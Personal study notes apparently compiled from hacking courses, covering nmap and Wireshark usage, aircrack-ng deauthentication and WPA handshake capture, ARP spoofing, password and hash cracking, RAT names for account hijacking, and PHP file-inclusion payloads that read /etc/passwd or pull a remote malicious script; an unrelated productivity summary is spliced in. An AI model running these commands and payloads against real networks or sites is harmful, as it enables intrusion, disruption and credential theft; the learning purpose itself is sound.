   link reveals its public address, thus its router, OS and ubication.

** Wireshark

   Helps us get information about traffic on our network, thus seeing
   information about who sent us which package, and seeing its IP
   address.
   
   Captures every package that goes through your netwrk  and details
   as the headers and the protocol.
   
   We can filter tcp.
   
   We can watch passwords sent to an unprotected website (HTTP).

   We can filter http.
   
   WE can filter http.request.method=="POST" filters how many packages
   of http with a method post (used for formularies).

** Nmap

   Allows us to scan ports and information of a given target by its IP.

   'nmap --script dns-brute google.com' allows us to identify the
   servers the target is using
   
   nmap --script=firewalk --traceroute
   --script-args=firewalk.max-retries=1 domain.com

   nmap --script http-sitemap-generator domain.com -p 80

   nmap -sS -vv -d -sC -sV -O

   'nmap -p445 --script smb-vuln-ms17-010 192.168.1.0/24' checks a
   windows PC and looks for vulnerabilities

   nmap -sT 216.92.116.13

   ftp

   netcat

   netstat -a

   netstat -aon

   For information about your system and ports.

   nmap -sS -O 127.0.0.1, the -sS is to do a SYN or so-called stealth scan, and
   -O for 'guess operating system'.

   In Nmap, all ports that are marked as 'filtered' means that they're protected
   by a firewall. They're well-known and vulnerable, so they should always be
   blocked. 

   Syn Scan

   The information that we will need is:
   
   - Firewall brand, model, firmware version, and software patches that exists

   - Remote connections authentication, access privileges, and processes.

   - Other servers that connect to the network, this includes Email HTML,
     back-up, redundant, off-site, hired or out-sourced services, and even
     contractors that may have used your network or are using it now.

   - Printers, fac machines, photocopiers, wireless routers, and network
     connections in your company waiting room.

   nmap --script dns-brute domain.com, this allows us to identify
   the servers of the target

   nmap --script=firewalk --traceroute
   --script-args=firewalk.max-retries=1 domain.com

   nmap --script http-sitemap-generator domain.com -p 80

   portalhacker.net
   Lbrary

   nmap -sS -vv -d -sC -sV -O

   nmap -sTV -Pn -n --top-ports 10 --reason -oA hhs_5_06 hackerhighschool.org

   In Nmap, all ports that are marked as 'filtered' means that they're protected
   by a firewall. They're well-known and vulnerable, so they should always be
   blocked. 

      SYN Scan
   Another famous scanning technique is the SYN scan. When nmap is doing this type
   of scan, nmap sends only a SYN packet without completing the three-way
   handshake***. This is also called a "half-open" or "stealth" scan, because
   there TCP connections are not completed. (Be very clear that while a target
   may not log a connection, you are still making digital "noise" that can be
   detected.)

** Github Effective engineer notes

   Focus on High Leverage Activities:

   Leverage = Impact Produced / Time Invested.
  
   80% of the impact comes from 20% of the work.

   And effective engineer is an engineer that produces results.

   Focus on High Leverage Activities:

   Leverage = Impact Produced / Time Invested.

   Use Leverage as Your Yardstick for Effectiveness.

   80% of the impact comes from 20% of the work.

   Focus on high leverage and not just easy wins.
   
   Optimize for Learning:

   Change jobs if you have to.

   Optimizing for learning is high leverage.

   Adopt a growth mindset.

   - Talk to people. Become good at telling stories. It gets better with time.

   - Those with a growth mindset believe that they can cultivate and grow their
     intelligente and skills through effort.

   -  Own your story

   Invest in the rate of learning.

   - Learning compounds. Compounding leads to exponential growth. Earlier the
     compounding starts, the better.

   - Working on unchallenging tasks is a huge opportunity cost. You missed out
     on compounded learning. 

   - Prioritize learning over profitability.

   - Invest your time in activities with the highest learning rate.

   Seek Work Environments Conducive to Learning

   - Fast Growth: Companies where #problems >> #resources. Opportunity to choose
     high impact work.

   - Make sure you are working on high priority projects.

   - Openness, look for culture with curiosity, where everyone is encouraged to
     ask questions.

   - Fast Paced.

   - People smarter than you.

   - Autonomy, Freedom to choose what to work on. Smaller companies => MOre
     autonomy.

   While on Job

   - Make a daily habit of acquiring new skills.

   - Read code written by brilliant engineers.

   - Jump fearlessly into code you don't know.

   - Always be learning. Invest in skills that are in high demand.

   - Read Books. Attend Conferences.

   - Build and maintain strong relationships.

   Prioritize Regularly:

   Opportunity cost of working on wrong ideas can set back growth by years.

   Prioritize task based on ROI (Return On Investment)

   Regular prioritization is high leverage activity.

   On TODO lists:

   Maintain a single todo lists where all task are listed.

   Don't try to remember stuff. Bain is bad at remembering. It's rather good at
   processing

   Ask yourself regularly: Is this the most important thing I should be working
   on?

   Focus on what directly produces value.

   Learn to say no.

   Focus on the important and non-urgent.

   Find ways to get into flow. "A state of effortless concentration so deep that
   they lose their sense of time, of themselves, of their problems."

   When possible, preserve large blocks of focused time in your schedule.

   Limit the amount of Work in Progress.

   Cost of context Switching is high.

   Prioritizing is difficult.

   Prioritization is high leverage. IT has huge impact on your ability to get
   right things done.

   Invet in Iteration Speed:

   Continuous Deployments is high leverage.

   Will save a lot of time in manual deployment of code. THey are the people who
   get things done. Effective Engineers produce results.

   Move fast to learn fast.

   Move fast and break things.
   
   Moing fast enables us to build more things and learn at faster rate.

   Invest in time saving tools.

   If you have to do something more than twice, write a tool the third time.

   Tools are multipliers that allow your to scale your impact beyond the
   confines of a day.

   Faster tools get used more often.

   Faster tools can enable new workflows that previously weren't possible.

   Productivity skyrockets with tools.

   Time saving property of tools also scale with team adoption.

   Shorten your debuggin and validation Loops.

   Extra time spent in optimizing debugging workflow can help you fix annoying
   bugs with less headache.

   Debudding is hard. It's time consuming. Upfront investments to shorten
   debugging loops are worth it.

   High test coverage to reduce buiild and site breakages.

   Fast unit tests to encourage people to run them.

   Fast and incremental compiles and reloads to reduce development time.

   Master your programming environment.

   One Editor, One high level language. Shell. Keyboard > Mouse. Automare manual
   workflows. Use interactive shell. Make running specific test easy.

   Faster you cna iterate, faster you can learn.

   Measure what you want to Improve.

   Use metric to drive progress.

   If you can't measure it, you can't improve it.

   Good Metric help you focus on right things, drives forward progress and helps
   you guard against future regressions.
   
   Performance ratcheting, any change should strictly improve the metric.

   Bad metric can lead to unwanted behavior.

   Examples:

   #hours worked < productivity

   click through rates < long click through rates.

   Metric you choose influences your decisions and behavior.

   Look for metric that, when optimized, maximizes impact for the team.

   Actionable metric - Those movement can be casually explained by team's
   effort.

   Responsive Metric - Updates quickly to give back feedback whether a given
   change was =ve or -ive.

   Choosing a metric iss high leverage.

   Dedicate time to pick right metric.

   Instrumate everything to unerstand what's going on.

   Measure anything, measure everything.
   
   Graphite, statsd. A single line of code lets you define a new counter or timer
   on the fly..
   
   Measuring goals you want to achieve is high leverage.

   Internalize useful numbers:

   Knowledge of useful numbers provide a valuable shortcut for knowing where to invest efforts to maximize gains.

   Need upfront work. Need not be accurate, ballpark idea suffices.

   Knowing useful numbers enables you to do back of the envelope calculations to
   quickly estimate the performance properties of a design without actually
   building it.

   Internalizing useful number help you spot anomalies. Be skeptical about data
   integrity.

   Log data liberally.

   Build tools to iterate on data accuracy sooner.

   Examine data sooner.

   When numbers look off, dig in to it sooner.

   Measure your progress. Carefully choose your top-level metric. Instrument
   your system. Know your numbers. Priorize data integrity.

   Validate your ideas early and often:

   Not validating early leads to wasted efforts.

   Don't delay get feedback.

   Find low effort ways to validate work.

** Aircrack-ng

   A complete suite of tools to audit a network's security.

   It focuses on different areas of WiFi security:
  
   - Monitoring :: Packet capture and export of data to text files for further
                   processing by third party tools.

   - Attacking :: Replay attacks, deauthentication, fake access points and
                  others via packet injection.

   - Testing :: Checking WiFi cards and driver capabilities (capture and
		injection)

   - Cracking :: WEP and WPA PSK (WPA 1 and 2).

   arpspoof -i (interface) -t (target) 192.168.1.42 192.168.1.1 -r (for a double attack)

   aircrack-ng, tool for changing a device of monitor mode

   airodump-ng, allows us to see traffic of our monitor mode device

   airdump-ng -c 11 --bssid 00:00:00:00:00:00 -w /root/no.nap wlan0mon

   Scans channel 11 and the bssid given and generates a file in /root/
   in a file
   
   airodump-ng is traffic capturing, not package capturing

   To web security: airdecap-ng

   Desencriptar con airdecap-ng

   airdecap-ng -l -e empresawisp -p caja5755apache trafico-01.cap

   After scanning traffic on a given aerea, we can make an:

   airodump-ng -c (channel)11 --bssid (MAC ADDRESS) -w (path for the file)

   After capturing the traffic, we can make an airdecap-ng (file created).cap,
   this decrypts the file

   Then, a (file)-dec.cap will be created, and that file can be accessed through
   wireshark.
   
   "Remove" internet:

   airmon-ng
   
   airmon-ng start wlan0
   
   airodump-ng wlan0mon
   
   airodump-ng -c 1 --bssid (MAC) -w (destiny) wlan0mon
   
   airodump-ng -c 9 --bssid otra red -w (file)
   
   airmon-ng check kill

  
   BSSID: The MAC address of the AP (Access Point). In the Client section, a
   BSSID of "(nor associated)" means that the client is not associated with any
   AP. In this unassociated state, it is searching for an AP to connect with.
   
   PWR: Signal level reported by the card. Its signification epends on the
   driver, but as the signal gets higher you get closer to the AP or the station.
   If the BSSID PWR is -1, then the driver doesn't support signal level
   reporting. If the PWER is -1 for a limited number of stations then this is for
   a packer which came from the AP to the client burthe client transmissions are
   out of range for your card. Meaning you are hearing only 1/2 of the
   communication. 
   
   RXQ: ONly shown when on a fixed channel. Receive Quality as measured by the
   percentage of packets (management and data frames) success-fully received over
   the last 10 seconds. It's mesasure over all management and data frames. THat's
   the clue, this allows you to read more things out of this value. Lets say you
   got 100 percent RXQ and all 10 (or whatever the rate) beacons per secon coming
   in. Now all of a sudden the TX drops below 90, but you still capture all sent
   beacons. Thus you know that the AP is sending frames to a client but you can't
   hear the client nor the AP sending to the client (need to get closer). Another
   thing would be, that you got a 11MB card to monitor and capture frames (say a
   prism2.5) and you have a very good position to the AP. THe AP is set to 54MBit
   and then again the RXQ drops, so you know that there is at least one 54MBit
   client connected to the AP.
   
   Beacons: Number of beacons sent by the AP. Each access point send about ten
   beacons per second at the lowest rate (1M), so they can usually be picked up
   from very far.
   
   When looking at the man page for airmon-ng, we get:
   
   airmon-ng - POSIC sh script designed to turn wireless cards into monitor mode. 
   
   This script can be used to enable monitor mode on wireless interfaces. It may
   also be used to go back from monitor mode to managed mode. Entering the
   airmon-ng command without parameters will show the interfaces status. It can
   also list/kill programs that can interfere with the wireless card operation.

     #Data: Number of captured data packets (if WEP, unique IV count), including
  data boardcast packets.

  #/s: Number of data packets per second mesaure over the last 10 seconds.

  CH: The channel that the AP is using.

  MB: Maximum speed supported by the AP. If MB = 11, it's 802.11b, if MB = 22
  it's 802.11b+ and higher rates are 802.11g. THe dot (after 54 above) indicated
  short preamble is supported. 'e' indicates that the network has QoS (802.11e)
  enables.

  ENC: Stands for encryption, the type of security that it has, normally to
  ever network it will be WPA2, which is widely used.

  OPN = no encryption, "WEP?" = WEP or higher (not enough data to choose between
  WEP and WPA/WPA2), WEP (without the question mark) indicates statis or dynamic
  WEP, and WPA or WPA2 if TKIP or CCMP or MGT is present.
  
  CIPHER: The cipher detected. One of CCMP, WRAP, TKIP, WEP, WEP40, or WEP104.
  Not mandatory, but TKIP is typically used with WPA and CCMP is typically used
  with WPA2. WEP40 is displayed when the key index is greater than 0. The
  standard states that the index can be 0-3 for 40bit and should be 0 for 104
  bit.

  AUTH: Stand for authentication, stands for the method of well, authentication,
  normally, it will be on 'PSK' (pre-shared key for WPA/WPA2) , which means that it needs a password in order
  to authenticate. MGT (WPA/WPA2 using a separate authentication server), SKA
  (shared key for WEP) or OPN (open for WEP).

  ESSID: THe name of the network.

  We'll normally see your target, and we can filter airodump-ng to give us all
  the information we want only about our target with '-d', which shows only
  networks matching the givven BSSID, for example:

  airodump-ng wlan0mon -d E4:BE:ED:D5:FB:D1  

  This will give us all the traffic happening, and some 'STATION' field, which
  is the MAC addressess of the ones that are connected to the network.

  When looking at the manuel of aircrack-ng it says:

  aircrack-ng - a 802.11 WEP / WPA-PSK key cracker

  There's an option for airdump-ng (-i) that only takes data useful for
  cracking, I'm not sure how to use it though.

  Capturing all the data iwthout the (-i) option, gives files that can be readed
  by wireshark.

  sudo aireplay-ng -0 0 -a E4:BE:ED:D5:FB:D1 -c F8:84:F2:1D:5E:20 -x 150
  wlan0mon

  This disconnect my phone of the network, I had before a message about the
  channel, for example: the AP is on channel 6 but wlan0mon is on 3, this was
  fixed with:

  sudo airmon-ng start wlan0mon 6
  
  -------------------------------------

  sudo airmon-ng

  sudo airmon-ng start wlan0 #wlan0 becomes wlan0 (is now on monitor mode)

  airodump-ng wlan0mon -w

  In the network 'beacons' = ethernet, cable. 

  In the network #Data = WiFi.

  aircrack-ng (file).cap

  Autenticación: network down

  aireplay-ng -0 3 -a (AP) -c (TARGET) -x 150 wlan0mon

  This will make a WPA handshake

  aircrack-ng (file).cap

  This will give us the password in the case the encryption is WEP

  The technique of WPA is:
  
  all .cap files have to be decrypted, so you should always:

  airdecap-ng (file).cap

  This will give us our same file but with dec name.

  Fluxion is a good tool for gathering information about a network.

  For WPA/WPA2 is the most use.

** Armitage

   A cyber attack management for metasploit.

** Metasploit

   A scriptable red team collaboration tool for Metasploit that
   visualizes targets, recommends exploits, and exposes the advanced
   post-exploitation features in the framework

** MITMF

   Framework for Man in the middle attack.

** sslstrip2-master
** Proxy like OWASP ZAP or Burpsuite Free
** Netscan
** Hacking Passwords
*** Threats

    Social Engineering, the best way to prevent against this form of
    attack would be avoiding the use of any information that may be
    common knowledge.

    Dumpster Diving and shoulder surdfind can provide useful
    information about someone that can be used to guess their password.

    Offline Password Cracking, If the attaciker has the password file
    then they have all the time in the world to run dictionaries and
    rainbow tables against it.

    Phishing, the cracker sends a link to a fake login page via email
    or chat. The victim clicks it, sees a familiar login page and
    enters their credentials.

    Password Sniffing means just waiting for you to type a password and
    grabbing off your system, network, or even right off your
    keyboard. hile keeping your computer clean of key capture dongles
    that fit between your keyboard and PC or malware that waits for
    password will help, it won-t do any good if the attacker is between
    you and the server you connect to. On web sites, enable HTTPS Only
    in youir browser to ensure that the site uses an encrypted
    connection whenever data is exchanged. Otherwise it-s too easy to
    grab your password straight from your connection to the server.

    Keyloggers, RATs and other malware can set up a keylogger or RAT
    server on the victim.
*** Hashed Passwords and Salts

    Storing passwords in plain text is bad, because of this, instead of
    keeping passwords lying around in plain text, let's encrypt them.

    The problems with encryption are the computing power required to
    encrypt and decrypt the password, and safely storing the encryption
    keys.

**** Hashes (MD5, SHA-1, SHA-2 and SHA-3)

     A hash is a mathematical formula that ses a password and sometimes
     random data (a salt) to return a single value. Think of a hash as
     a locksmith creating a key to fit one lock. The locksmith uses
     unique materials and spceial tools to make each key so that oly
     one key will ever fit that one lock. This hash key is built using
     the password as part of the material and some added information
     (the salt) to make the rest of the key. The hash key or hash
     string will only match one particular lock. If you try to create a
     duplicate key, the fake key won't match because only one key will
     ever fit that one lock.

     The random bits of data that are added to the hash algorithm, like
     a key for computations is called the salt.

     A salt is usually a string of random data from 48 to 128 bits
     long. The longer the salt, the higher the level of complexity and
     difficulty to crack.

    
**** Key Derivation Functions

     A step forward in hash functions are key derivation
     functions. These are ysed to derive keys from a string, a salt and
     a big number or iterations in a formula.

     DK (Derived Key) = KDF (Key, Salt, Iterations)

     The whole point is to make hash generation slow. But not too slow,
     "fast" hash algorithms let brute-force and dictionary attacks run
     wild; slow algorithms make them too slow to be pactical in many
     cases.

     Cryptology means altering information or data to make it
     incomprehensible and unreadable unless you possess some secret
     knowledge. One of the ways we do this is encryption.

     md5sum

*** Password Cracking
**** Use the brute force

     Brute-force attacks try every possible combination in the
     keyspace, or at least as many as it takes to find the
     password. They don't start with a list; they generate all the
     permutations on the fly. This means that brute-force attacks are
     very through on the one hand, but can take a very long time to run
     on the other. That's why experienced password crackers will try
     brute-forcing passwords of up to seven or eight characters in
     lower-case only, then switch to other attacks for longer and more
     complex passwords.

     Hashcat needs a hashdump file

     Dictionary Attacks uses a word list

     For dictionary attacks, use openwall, and John the Ripper

     How do you speed up dictionary attacks?, how about pre-hashing all
     those dictionary files?, the problem is that there are lots of
     different hashing algorithms our there. What you really need to do
     is hash each password with several different algorithms, and
     styore the results in a table with a column for each
     algorithm. These tables, with the plain and the hashes of
     different fixed lengths, these are Rainbow tables, and are an
     example of space/time tradeoff. In this case, the tradeoff is
     between huge use of disk space, to save huge amounts of time
     during actual cracking runs.

     Creating rainbow tables of entire word list is impractical
     precisely because of the issue of file size. So hashcrackers do
     something different. Cracking the hash by cracking small parts of
     it at a time, then assembling the parts. This is wildly clever and
     intensely mathematical.

     one logical attack is to look for repeated values in calculations:
     Using a hash (with salt) the word "Stun" could look like -dr23
     n9n2 8v84 llwi-. So, why not look for a pattern in other hash
     calculations to see if you can find a match?

     Rainbow tables do a nice trick, instead of looking for a whole
     password, rainbow tables let you look for fragments or pieces of
     passwords. Rainbow tables aren't exactly tables; they are a
     collection of columns in which each column uses a different
     reduction function. If you assigned each color you could think of
     the columns as a curve, or a rainbow. The whole idea is that if
     the calculated values of any two "colors" matches, you've found
     part of the password.

     From a mathematical perspective, try and wrap your mind around a
     simple formula of - v+x-4= 162

     Both v and x could be any combinations of numbers as long as the
     answer equals 162.

     The rainbow tablese already have hash values computed and any
     input you provide (to crack a password) is matched against each
     column (reducing values) until a perfect match is found. As we saw
     with "Stun" above, the hash calculation would look like this: dr23
     n9n2 8v84 2lwi. If you were to apply this into a rainbow table
     automated lookup generator, every two digits are analyzed and
     reduced to find a matching character. While this lookup is
     occurring, each column is reducing your input, thus speeding up
     the match finding process. Simple stuff, right?

     All the rainbow tables are doing is looking for the answer
     v+x-4= 162. The v and the x values are the unknown factors and the
     tables have already been calculated to find that type of answer,
     just on a massive scale.

     Since hash values are one-way, it is impossible to reverse
     engineer any hash string and expect to get a correct answer. Think
     of a hash calculation as a door that only opens in one direction
     and traffic can only flow in that same direction. It is highly
     likely that hash values will be the same somwhere along the way
     and that is how rainbow tables operate. Theycompare hash
     calculations that you provided against a massive collection of
     predetermined hash values. As the two digit set moves through the
     table, each column reduces the answer until a match is found.

     L0phtcrack is a powerful commercial password auditing tool.

     Combinator Attacks

     Rainbow tables have weakness: they're easily defeated when systems
     use a salt. When theu ser creates a password, the system also
     creates a random salt (a string of a few letters to add to the
     password), combines password and salt, and only then creates the
     hash. Every user's salt is unique to them. The salt can be stored
     unencrypted in the same table as the passwords hashes, it-s easier
     to stal both the hash and the salt, they're in the same table, so
     best practices seem to tell people to store the saltss in a
     separate table, or in a separate database, or on a separate
     machine.

     There are two commonly used methods to recover hash values in
     Windows. The first one is an injection using Local Security
     Authority Subsystem Service (LSASS) and the other is taking a
     direct reading off of the registry using SAM/System. LSASS reads
     the hash directly from memory, while SAM reads the local registry
     hives. There are other methods that can be used to gather hash
     values but LSASS and registry reads have a higher probability of
     success. Then the attacker can research and crack those hashes at
     his leisure off-line.  That's especially handy because the
     attacker can gather several (if not all) the hash strings in a
     single breach.

**** Network-based Password Cracking

     What about those times when you don't have a password hashdump,
     but need to recover the password to a database, web application or
     some other online service? This is wen you need a network password
     cracking tool.

     THC Hydra

     A speedy network authentication cracker which supports plenty of
     different services. When you need to brute force crack a remote
     authentication service, Hydra is ofthen the tool of choise. It can
     perform speedy dictionary assaults against more than 30 protocols,
     including telnet, ftp, http, https, smb, several databases and
     many more.

     Brutus

     Is a network brute-force authentication cracker. This Windows-only
     cracker tests network services on rmeote systems, trying to guess
     passwords by using a dictionary and permutations. It supports
     HTTP, POP3, FTP, SMB, TELNER, IMAP, NTP and more, it is not open
     source.

**** Wireless Password Cracking

     Aircrack, an open-source wireless security testing suite.

     It needs a wireless network interface controlled with a driver
     that supports raw monitoring mode (injection), and can sniff
     802.11a, 802.11b and 802.11g traffic.

     We'll need a average graphics card, known as a GPU for Graphic
     Processor Unit. These acrd are designed for repetitive task unlike
     a CPU, which is designed to all kinds of tasks. Even through your
     computer, smartphone, tablet and other devices have GPUs built
     into them, those chips are unlikely to be programmable by the
     user. They are locked chips that only accelerate the graphics for
     that device. The type of GPU needed to crack passwords (or mine
     bitcoins) are higher end gamer cards. A couple of these acards in
     a comoputer can crack passwords dozens of times faster but als
     ocosts more money.

     One of the best software programs out there for password recovery
     is oclHashcat, it's aimed at either AMD or nVidia/s graphics
     cards. Besides having control over almost every aspect of
     decrypting passwords. It also provides a watchdog to ensure you
     don't fry your GPU due to over temperature.

** Hacking Social Networks

   NoIP so your IP doesn't change, and the connection isn't
   interrupted because of IP changes, for example, restarting your
   modem

   Adwind R.A.T, Remote Administration Tool

   indetectables RAT, INDRAT

   Advanced File Joiner

   unicodeinput.exe

** Ethical Hacking, treeknow

   EvilFOCA
   FOCA PRO
   metadatos clean
   Certified Ethical Hacker (CEH) v8 and v7
   Ethical Hacking 2.0
   Web Hacking
   Backtrack 5 wireless penetration testing
   Curso de Hackeo Ricardo Nva
   Informatica Forense infortex
   alfaomega forense
   
   Malware are any malicious program, being it worms, spyware,
   troyans, virus or scripts that may damage a system.

   Exploit is made by showing any vulnerability in an app.

   Making Logic diagrams is great for any programmer, independent of
   the programming language

   Backdoors on-the-fly: www.hackerz.ir/e-books/init_rpi.txt

   Troyan Binaries: Replacing binaries of the system is a great way of
   hiding in plain sight
   
   Rootkits: Apps used to maintain root privileges on a server, making
   use of hidded processes.

   Sniffers: Capture logins of any packet on the network.

   in Linux/Unix or solaris, Shadows are used for these types of
   intrution, for Windows, SAM.

   Google Hack Honeypot

   Google Hacking for Penetration Testers, Volume 2, johnny Long

   http://johnny.ihackstuff.com/ghdb.php

   SmartWhoIs
   CountryWhois

*** Fase de Reconocimiento

    ROBTEX
    builtwith
    MALTEGO
    FOCA
    centralops.net
    proxylist.hidemyass.com
    geoipview.com
    robtex
    Netcraft
    THEHARVESTER

    in order to use the information, one has to know about the TCP/IP
    protocol. 

    For a normal TCP connection, it's necessary to follow a three step
    negociation. This negociation is started ith a SYN packet in the
    original machine, the other machine gives a SYN/ACK packet in
    response, which is finally responded with the original machine
    with a ACK packet.

    Once this is made, the connection is confirmed.

    A port scanner sends several SYN packets to the destination
    machine, and scans the response.

    If after sending a SYN packet on a specific port the destiny gives
    us a SYN/ACK, the port is open and listening to conections, if
    not, or if a ICMP Port Unreachable packet is received, the port is
    filtered by a firewall.

    | Port | Description                           |
    |------+---------------------------------------|
    |    1 | TCP Port Service Multiplexer TCPMUX   |
    |    5 | Remote Job Entry (RJE)                |
    |    7 | ECHO                                  |
    |   18 | Message Send Protocol (MSP)           |
    |   20 | FTP - Data                            |
    |   21 | FTP - Control                         |
    |   22 | SSH Remote Login Protocol             |
    |   23 | Telnet                                |
    |   25 | Simple Mail TRansfer Protocol (SMTP)  |
    |   29 | MSG ICP                               |
    |   37 | Time                                  |
    |   42 | Host Name Server (Nameserv)           |
    |   43 | WhoIs                                 |
    |   49 | Login Host Protocol (Login)           |
    |   53 | Domain Name System (DNS)              |
    |   69 | Trivial File Transfer Protocol (TFTP) |
    |   70 | Gopher Services                       |
    |   79 | Finger                                |
    |   80 | HTTP                                  |
    |  103 | X.400 Standard                        |
    |  108 | SNA Gateway Access Server             |
    |  109 | POP2 110 POP3                         |
    |  115 | Simple File Transfer Protocol (SFTP)  |
    |  119 | SQL Services                          |
    |  119 | Newsgroup (NNTP)                      |
    |  137 | NetBIOS Name Service                  |
    |  139 | NetBIOS Datagram Service              |
    |  143 | Interim Mail Access Protocol (IMAP)   |
    |  150 | NetBIOS Session Service               |
    |  156 | SQL Server                            |
    |  161 | SNMP                                  |
    |  179 | Border Gateway Protocol (BGP)         |
    |  190 | Gateway Access Control Protocol       |
    |  194 | Internet Relay Chat (IRC)             |
    |  197 | Directory Location Service (DLS)      |
    |  389 | Lightweight Directory Access Protocol |
    |  396 | Novell Netware over IP                |
    |  443 | HTTPS                                 |
    |  444 | Simple Network Paging Protocol        |
    |  445 | Microsoft-DS                          |
    |  458 | Apple QuickTime                       |
    |  546 | DHCP Client                           |
    |  547 | DHCP Server                           |
    |  563 | SNEWS                                 |
    |  569 | MSN 1080 Socks                        |

    Well known ports, to a full list of dinamic and private ports, go
    to wwww.iana.org/assignments/port-numbers

    www.eeye.com and wwww.appsecinc.com
    Nessus
    
    Nmap:

    Ports listing : nmap-sS IP
    Barrida de rango: nmap -sS 200.**.0.2-200 (Scans in a range, from
    2 to 200)
    Barrida de rango buscando los puertos SSH, Netbios, FTP y Telnet: 
    nmap -sS -p 22,21,139,23 200.**0.2-200
    Operating system: nmap -O -v IP
    Services versions: nmap -T Aggressive -sV -n -O -v IP

    UMIT, the nmap frontend

    Inyection:

    In PHP querys, one can inject special characters, even web links
    that execute scripts with commands, these querys are calls for
    files or variables that made some .php scripts in the server, for
    example: sitiovictima/file.php?id=34 (calling a variable),
    sitiovictima/file.php?file=encuesta.htm (calling for a
    file). Let's suppose that after the = character we put '' or URLS
    with scripts to execute commands in the server, or simply generate
    errors to see which information the target gives us.

    sitiovictima/file.php?file='
    sitiovictima/file.php?file=../../../../../etc/passwd
    sitiovictima/file.php?file=/etc/passwd00%
    sitiovictima/file.php?file=www.sitiodeporahi.com/scriptmaligno.php
    sitiovictima/file.php?file=www.sitiodeporahi.com/archivoasubir.gif
    sitiovictima/file.php?file=sitiovictima/file.php
    sitiovictima/file.php?file=file.php
    sitiovictima/file.php?file=anything to generate errors to achieve
    something on the app

    Jeffrey's Exif Viewer

    Any tool can't compare with the imagination of the human in any
    type of problem.

    A security check only basedo n tools, operating systems and
    exploits without a mind behind is not more than checking for
    normal problems. In the more common problems we can say:

    sitiovictima/robots.txt, sitiovictima/backup/ and
    sitiovictima/upload.asp
    
    telnet 

    SecureCTR (www.vandyke.com)

    AMAP

    Some examples of HTTP petitions are:

    Discover if the target is vulnerable to SQL injection putting a
    simple ' on a login or string in the URL.

    Searching of directories
    Hidden Subdomains , intranets, extranets
    CGIs known or not, XSS
    Paths with / at the end
    Administration web panels, ftp, mail or another institutional app
    or private of intern design.
    Apps to upload files
    Repositories of confidential files or not, hidden or not.
    Common files as robots.txt, that give a list of public paths and
    hidden in the server
    Code of the page
    If Remote scripts can be injected
    
    A good tool is CURL, a command line interface to transfer files
    with a sintax URL, support for FTP, FTPS, HTTP, HTTPS, SFTP, TFTP,
    LDAP, LDAPS. Curls supports SSL certificated, HTTP POST, HTTP PUT,
    FTP uploading, HTTP form based upload, proxies, cookies,
    user+password authentication, file transfer resume, proxy
    tunneling and others.

    Commands can be injected
    Cookies can be injected
    Is possible to make a file retrieve, extract/read operating system
    files.
    Directories can be traspassed
    Jumping accessing controls of data with a proxy
    URL parameters can be replaced to generate erros.
    Downloading of binary files or another type for analize
    A file manager can be found
    Another, as trying to add data via POST clicking the bottom accept
    and then Enter, see if there is a difference in the comprobation,
    or making a retrieve of any password or data.

    
    
** GRSecurity

   GRecurity is a set of patches for the linux kernel with and
   emphasis on enhancing security. Its typical application is in web
   servers and systems that accept remote connections from untrusted
   locations, such as systems offering shell access to its users.

   GRsecurity is free software.

*** PaX

    A major component bundled with grsecurity is PaX, which is a patch
    that ,amogst other things, flags data memory, such as that on the
    stack, as non-executable, and program memory as non0writable. The
    aim is to prevent executable memory pages from being overwritten
    with injected machine code, which prevents exploitation of many
    types of security vulnerabilities, such as buffer overflows. PaX
    also provides address space layout randomization addressess being
    easily known. PaX is not itself developed by the grsecurity
    developers.

    GRsecurity provides a full Role0based access control (RBAC)
    system. RBAC is intented to restric access to the system further
    than what is normally provided by Unix access control lists, with
    the aim of creating a fully least-privilege system, where users
    and processess have the absolute minimun privilegese to work
    correctly and nothing more. This way, if the system is
    compromised, the ability by the attacker to damage or gain
    snesitive information on the system can be drastically
    reduced. RBAC works through a collection of "roles". Each role can
    have individual restrictionxs on what they can or cannot do, and
    these rolees and restrictions form a "policy" which can be amended
    as needed.

    
